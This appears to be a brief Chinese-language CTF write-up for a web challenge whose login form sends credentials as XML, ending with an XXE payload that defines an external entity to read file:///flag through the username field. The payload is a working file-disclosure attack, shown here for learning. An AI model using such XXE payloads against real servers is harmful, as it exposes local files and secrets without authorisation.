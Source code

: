 ![[Pasted image 20221126110208.png]]

---
首页长这样
![[Pasted image 20221126110251.png]]

有几行js，大意是将用户名和密码通过`xml`传输
![[Pasted image 20221126110150.png]]

瞎输一通出发了报错，好像可以对发送的`xml`进行注入
![[Pasted image 20221126110430.png]]

这玩意没咋了解过，就当是学习`XXE`了叭QAQ
https://xz.aliyun.com/t/6887
```xml
<?xml version="1.0"?>
<!DOCTYPE xxe [
<!ENTITY flag SYSTEM "file:///flag">
]>
<user>
	<username>&flag;</username>
	<password>123</password>
</user>
```
![[Pasted image 20221126115039.png]]

#Web #XXE